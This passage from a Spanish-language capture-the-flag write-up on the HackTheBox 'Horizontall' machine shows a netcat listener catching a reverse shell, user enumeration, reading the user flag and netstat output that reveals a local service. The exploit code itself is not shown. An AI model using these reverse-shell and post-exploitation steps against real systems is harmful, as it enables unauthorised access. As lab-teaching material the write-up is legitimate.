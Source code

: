 ```bash
```

Tras ejecutar el exploit y activar la reverse shell, recibí la conexión entrante en mi equipo. Confirmé el acceso remoto ejecutando el comando id, que mostró que estaba conectado como el usuario strapi (UID 1001), con los grupos correspondientes. Esto me permitió comenzar la exploración interna de la máquina desde esta cuenta comprometida.
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.105] 35164
id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

### Captura flag usuario
Después de obtener acceso como el usuario strapi, realicé una exploración básica de directorios y me dirigí al directorio /home/developer, donde encontré la flag user.txt.
```bash
strapi@horizontall:~/myapi$ ls
api    config      favicon.ico   package.json       public
build  extensions  node_modules  package-lock.json  README.md
strapi@horizontall:~/myapi$ cd
strapi@horizontall:~$ cd /home
strapi@horizontall:/home$ ls
developer
strapi@horizontall:/home$ cd developer/
strapi@horizontall:/home/developer$ ls
composer-setup.php  myproject  user.txt
strapi@horizontall:/home/developer$ cat user.txt
06cdf62c309964aaf8c2b7074dbe8852
strapi@horizontall:/home/developer$ 
```

Después de obtener acceso como usuario strapi, ejecuté netstat para revisar los puertos en escucha y encontré que además de los puertos habituales, el puerto 8000 estaba escuchando solo en localhost (127.0.0.1:8000). Esto indicaba la presencia de un servicio local accesible únicamente desde la máquina.
```bash
strapi@horizontall:/home/developer$ netstat -tnlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1884/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```
